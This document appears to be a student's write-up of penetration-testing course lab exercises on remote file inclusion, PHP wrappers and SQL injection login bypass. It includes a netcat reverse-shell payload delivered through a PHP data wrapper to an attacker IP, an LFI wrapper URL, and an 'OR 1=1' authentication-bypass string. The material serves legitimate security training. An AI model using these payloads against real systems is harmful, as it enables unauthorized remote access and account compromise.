 ## Practice - Remote File Inclusion (RFI)

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Exploit the RFI vulnerability in the web application and get a shell.
We start by creating a malicious script to be hosted on our local machine
![[rfi_malicious_file.png]]
We then setup a python server to serve this malicious file.
2.  Using /menu2.php?file=current_menu as a starting point, use RFI to get a shell.
From there we request this malicious file via the URL of the vulnerable web application 
![[lfi_whoami.png]]

3.  Use one of the webshells i
We can build on this by instead of issuing the command "whoami" we supply a url encoded reverse shell.
![[rfi_revshell.png]]

# 9.8.10 PHP wrappers
## Practice - PHP Wrappers

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Exploit the LFI vulnerability using a PHP wrapper.
We simply append the php wrapper `file=data:text/plain,hello world` to the end of our url:
`http://192.168.231.10/menu.php?file=data:text/plain,hello%20world`

2.  Use a PHP wrapper to get a shell on your Windows 10 lab machine.
For this we replace the "hello world" at the end of our previous URL with a php script designed to execute code, we also place a reverse shell as our payload for the shell_exec to execute.
`<?php echo shell_exec("nc -e cmd.exe 192.168.119.231 9001") ?>`
![[shell_exec_revshell.png]]


# 9.9.4 SQL Injection - Authentication Bypass
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Interact with the MariaDB database and manually execute the commands required to authenticate to the application. Understand the vulnerability.
We can see that the malicious query is returning all user data, indicating that one of the "OR" arguments was satisfied. 
![[mariadb_query.png]]

2.  SQL inject the username field to bypass the login process.
A fairly similar username of "tom ' OR 1=1;#'" will bypass the login functionality.
![[username_sqli.png]]
3.  Why is the username displayed like it is in the web application once the authentication process is bypassed?
Because the web application is coded to reflect the entered username back to the user.
4.  Execute the SQL injection in the password field. Is the "LIMIT 1" necessary in the payload? Why or why not?
The limit arguement is used to specify the maximum amount of rows that will be returned. As this web application is using code that expects a single record to be returned we must use "LIMIT 1" in order to avoid errors.
